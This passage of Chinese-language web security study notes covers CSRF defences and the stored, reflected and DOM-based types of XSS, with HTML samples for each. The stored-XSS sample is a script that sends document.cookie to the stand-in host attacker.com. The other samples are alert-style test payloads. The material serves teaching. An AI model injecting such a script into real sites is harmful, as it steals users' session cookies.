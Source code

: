 - 不要使用 get 方法来执行状态更改的敏感操作

- 验证请求来源

  - 如检查`Referer`头信息，`Referer`是 HTTP 请求头中的一个字段，用于标识请求的来源页面 URL。
  - 缺点：**易被篡改**，攻击者可通过一些手段修改`Referer`字段值，如使用代理服务器等，使非法请求伪装成合法来源。

### XSS 跨站脚本攻击

攻击者通过在目标网站**注入恶意脚本**，网站在处理这些输入时，没有对其进行严格的过滤和转义，就将其输出到页面上，当用户访问该网站时，恶意脚本会在用户浏览器中执行，从而窃取用户信息、进行会话劫持等恶意操作。

XSS 攻击通常分为三种类型：存储型（Stored）、反射型（Reflected）和 DOM 型（DOM - based）。

#### **存储型**（持久型）——脚本存储在服务器

攻击者事先将恶意脚本代码**上传到目标网站的服务器**上，当其他用户访问包含恶意代码的页面时，他们的浏览器会执行这些代码。

例如：攻击者在一个论坛网站上发表了一个包含恶意脚本的评论。其他用户访问这个评论时，恶意脚本会被执行，窃取他们的会话 cookie 并发送到攻击者的服务器上。

```html
<!-- 攻击者发布的评论 -->
<script>
  fetch('http://attacker.com/steal?cookie=' + document.cookie)
</script>
```

#### **反射型**（非持久型 / 参数型）——脚本在 url 中

攻击者诱使用户点击包含恶意脚本的链接，服务器接收请求后，将恶意脚本反射到响应页面中，用户浏览器执行该脚本。例如，搜索页面的 URL 中包含搜索关键词，若服务器未对关键词进行过滤，攻击者可构造包含恶意脚本的搜索链接，诱导用户点击。

例如：攻击者将恶意脚本包含在 URL 中，然后诱使用户点击该 URL。当用户打开 URL 时，恶意脚本会在用户的浏览器中执行，执行一些恶意操作。

```html
http://vulnerable-website.com/search?query=
<script>
  alert('XSS')
</script>
```

#### **DOM 型 XSS**——脚本操作 DOM

攻击者通过修改页面的 DOM（文档对象模型）结构，注入恶意脚本。这种攻击方式不依赖服务器端的处理，而是在客户端直接修改页面的 DOM 元素，从而执行恶意脚本。

```html
<!-- 用户输入 -->
<img
  src="x"
  onerror="alert('XSS')"
/>
<!-- 页面展示 -->
<div class="post-content">
  <p>这是一个帖子</p>
  <img
    src="x"
    onerror="alert('恶意代码')"
  />
</div>
```
